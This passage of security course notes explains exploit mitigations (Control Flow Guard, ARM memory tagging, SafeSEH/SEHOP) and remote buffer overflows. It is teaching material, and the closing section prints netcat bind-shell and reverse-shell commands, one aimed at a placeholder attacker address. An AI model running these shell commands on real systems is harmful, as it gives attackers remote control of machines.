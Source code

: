 **CFG Process**:
```assembly
mov esi, [esi]      ; Load target address
mov ecx, esi        ; Copy target
push 1
call @_guard_check_icall@4  ; Verify target is valid
call esi            ; Make the call
```

### 6. Memory Tagging
- **Concept**: Tag memory regions and pointers with metadata
- **Protection**: Prevents buffer overflows and use-after-free
- **Example ARM MTE**:
  ```
  char *p = malloc(40);  // p = 0xB000_6FFF_FFF5_1240 (tagged as B)
  p[50] = 'a';          // B≠7 ⇒ tag mismatch exception
  free(p);              // Memory re-tagged from B to E  
  p[7] = 'a';           // B≠E ⇒ tag mismatch exception
  ```

### 7. Exception Handler Protection

#### Problem
- Exception handlers can be overwritten to bypass canaries
- Exception triggered before canary check

#### Solutions
- **SAFESEH**: Linker creates table of valid exception handlers
- **SEHOP**: Add dummy record at top of exception handler list, verify integrity

---

## Remote Buffer Overflow

### Concept
- **Scenario**: Exploit network services without local access
- **Challenge**: Cannot inject local shell, need remote backdoor

### Forward Shell vs Reverse Shell

#### Forward Shell
- **Method**: Server opens listening port for incoming connections
- **Command**: `netcat -vl -p 3333 -e /bin/bash`
- **Limitation**: Requires open inbound ports (blocked by firewalls)

#### Reverse Shell
- **Method**: Compromised server connects back to attacker
- **Advantage**: Works through firewalls (outbound connections usually allowed)
- **Process**:
  1. Attacker listens: `netcat -lvp 5555`
  2. Compromised server connects: `netcat attacker_ip 5555 -e /bin/bash`
